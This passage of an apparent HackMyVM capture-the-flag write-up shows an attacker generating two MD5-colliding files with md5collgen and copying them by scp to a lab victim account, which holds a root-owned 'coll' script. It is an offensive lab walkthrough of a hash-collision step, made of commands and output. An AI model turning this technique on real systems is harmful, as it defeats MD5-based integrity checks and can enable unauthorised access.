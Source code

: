 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`echo "HMV" | tee -a ./file`:
```
HMV

```

`/home/kali/md5collgen/md5collgen -p ./file -o ./file1 ./file2`:
```
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: './file1' and './file2' ←
Using prefixfile: './file'
Using initial value: af32bdb207bb81c5e0eb88c7b19397fd

Generating first block: .............................
Generating second block: S01................
Running time: 8.119639 s
```

`scp ./file1 joe@192.168.56.113:/home/joe`:
```        
joe@192.168.56.113's password: 
file1                                          100%  192   114.3KB/s   00:00 ←
```

`scp ./file2 joe@192.168.56.113:/home/joe`:
```
joe@192.168.56.113's password: 
file2                                          100%  192    67.5KB/s   00:00 ←    
```

![Victim: joe](https://img.shields.io/badge/Victim-joe-64b5f6?logo=linux&logoColor=white)

`ls -alps`:
```
total 40
4 drwxr-xr-x 3 joe  joe  4096 Sep 17 10:15 ./
4 drwxr-xr-x 3 root root 4096 Feb 19  2023 ../
0 lrwxrwxrwx 1 root root    9 Feb 25  2023 .bash_history -> /dev/null
4 -rw-r--r-- 1 joe  joe   220 Feb 19  2023 .bash_logout
4 -rw-r--r-- 1 joe  joe  3526 Feb 19  2023 .bashrc
4 -rwxr-xr-x 1 root root  366 Feb 19  2023 coll
4 -rw-r--r-- 1 joe  joe   192 Sep 17 10:15 file1 ←
4 -rw-r--r-- 1 joe  joe   192 Sep 17 10:15 file2 ←
4 drwxr-xr-x 3 joe  joe  4096 Feb 19  2023 .local/
4 -rw-r--r-- 1 joe  joe   807 Feb 19  2023 .profile
4 -rwx------ 1 joe  joe    33 Feb 19  2023 user.txt
```

`md5sum file1`:
```
f46d6ec08c68cb48fe098307863e85b6  file1 ←
```
